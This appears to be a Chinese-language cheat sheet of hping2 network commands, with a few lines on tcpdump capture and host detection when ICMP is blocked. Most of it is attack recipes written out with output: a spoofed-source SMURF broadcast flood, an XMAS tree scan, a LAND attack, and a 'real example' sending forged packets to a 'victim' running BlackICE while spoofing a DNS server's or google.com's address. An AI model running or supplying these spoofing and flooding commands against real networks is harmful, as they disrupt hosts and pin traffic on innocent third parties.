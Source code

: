 - SMURF攻击

```bash
hping2 -1 -a 192.168.1.5 192.168.1.255
```

- XMAS TREE攻击

```bash
hping2 -SFRP 192.168.1.5
```

- LAND攻击

```bash
hping2 -k -S -s 25 -p 25 -a 192.168.1.5 192.168.1.5
```

- 用tcpdump记录流量

```bash
#捕获25000个包,将原始报文转储到dumpfile中
cron任务: 5 3 * * * /usr/sbin/tcpdump -c 25000 -w dumpfile -n

#查看记录
tcpdump -r dumpfile -X -vv
```

- PING失效后的主机检测：

```bash
$ping 192.168.2.1
PING 192.168.2.1 (192.168.2.1) 56(84) bytes of data.
--- 192.168.2.1 ping statistics ---
19 packets transmitted, 0 received, 100% packet loss, time 18009ms
－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－
$hping2 -c 4 -n -i 2 192.168.2.1
HPING 192.168.2.1 (eth0 192.168.2.1): NO FLAGS are set, 40 headers + 0 data bytes
len=46 ip=192.168.2.1 ttl=64 id=43489 sport=0 flags=RA seq=0 win=0 rtt=1.0 ms
len=46 ip=192.168.2.1 ttl=64 id=43490 sport=0 flags=RA seq=1 win=0 rtt=0.6 ms
len=46 ip=192.168.2.1 ttl=64 id=43491 sport=0 flags=RA seq=2 win=0 rtt=0.7 ms
len=46 ip=192.168.2.1 ttl=64 id=43498 sport=0 flags=RA seq=3 win=0 rtt=0.6 ms
--- 192.168.2.1 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 0.6/0.8/1.0 ms
```
-c 发送4个报文-n不进行名称解析 -i包发送时间间隔。

好处：即使主机阻塞了ICMP报文，也可以显示主机是否在运行的信息，在关掉ICMP的探测有效！
显示信息解释：len，返回ip报文大小；ttl； id，IP的ID域；sport，源端口，flags，返回的IP报设置的TCP标志 （R：RESET，A：ACK；S：SYN；F：FIN；P：PUSH；U：URGENT）；seq：序列号；win：tcp窗口大小；rtt：往返 时，EIGRP似乎有这个设置。

- 更复杂的实际的例子

step 1:目标主机安装了blackice，它的ip address是ip.add.of.victim
step 2:发起攻击的一台linux 机器，上面安装了hping

```bash
执行如下命令
#hping -p 31335 -e PONG -2 ip.add.of.victim -c 5 -d 4 -a ip.add.of.dnsserver

HPING ip.add.of.victim (eth0 ip.add.of.victim): udp mode set, 28 headers
+ 4 data bytes
--- ip.add.of.victim hping statistic ---
5 packets tramitted, 0 packets received, 100% packet loss round-trip min/avg/max = 0.0/0.0/0.0 ms

#hping -p 31335 -e PONG -2 ip.add.of.victim -c 5 -d 4 -a www.google.com

HPING ip.add.of.victim (eth0 ip.add.of.victim): udp mode set, 28 headers
+ 4 data bytes
--- ip.add.of.victim hping statistic ---
5 packets tramitted, 0 packets received, 100% packet loss round-trip min/avg/max = 0.0/0.0/0.0 ms
```